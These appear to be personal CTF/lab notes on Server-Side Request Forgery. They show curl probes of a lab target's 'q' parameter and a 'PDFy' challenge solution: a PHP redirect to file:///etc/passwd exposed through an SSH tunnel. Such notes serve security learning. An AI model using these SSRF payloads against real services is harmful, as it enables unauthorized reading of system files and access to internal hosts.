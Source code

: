 * Web application fuzzing
* https://medium.com/%E7%A8%8B%E5%BC%8F%E7%8C%BF%E5%90%83%E9%A6%99%E8%95%89/%E7%B6%B2%E7%AB%99%E5%AE%89%E5%85%A8-%E4%BC%BA%E6%9C%8D%E5%99%A8%E8%AB%8B%E6%B1%82%E5%81%BD%E9%80%A0-ssrf-%E6%94%BB%E6%93%8A-%E9%A0%85%E8%8E%8A%E8%88%9E%E5%8A%8D-%E6%84%8F%E5%9C%A8%E6%B2%9B%E5%85%AC-7a5524926362
---
# <span style=color:#44D62C>Server-Side Request Forgery</span>
![image](https://hackmd.io/_uploads/rksnWPE4R.png)
![image](https://hackmd.io/_uploads/r1PQqw4VA.png)
![image](https://hackmd.io/_uploads/B1q4qDEEA.png)

---
* curl -i -s http://10.129.201.238
```http
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python
Date: Mon, 18 Oct 2021 09:01:02 GMT

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/load?q=index.html">/load?q=index.html</a>. If not click the link.
```
* /load?q=index.html --> redriect to index.html
    * <span style=color:red>parameter q may has SSRF?</span>
* curl -i -s -L http://10.129.201.238
```http
HTTP/1.0 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 242
Location: http://<TARGET IP>/load?q=index.html
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```
## Test SSRF
* creat the 'index.html' file
* open the http server using python3 under the index.html's path 
* curl -i -s "http://10.129.201.238/load?q=http://10.10.14.10:8080/index.html"

![Screenshot_20240529_163244](https://hackmd.io/_uploads/r1CEuwV40.jpg)

---
# <span style=color:red>Challenge - PDFy</span>
![image](https://hackmd.io/_uploads/rkWVxG9NA.png)
* exploit
    * https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/#exploitation
* writeup
    * https://writeup.raunak-neupane.com.np/web-ctfs/hackthebox/pdfy
    * https://medium.com/@Pdaysec/htb-pdfy-challenge-490e678bd521
```php
<!DOCTYPE=html>
<html>
    <body>
        <h1></h1>
            <?php
                  header('location:file:///etc/passwd');
            ?>
    </body>
</html>        
```

* php -S 127.0.0.1:1234
* ssh -R 80:localhost:1234 nokey@localhost.run

![image](https://hackmd.io/_uploads/ByoBCG5ER.png)

* https://96d0eb125b437c.lhr.life/PDFy.php

![image](https://hackmd.io/_uploads/ByOPRz5EC.png)
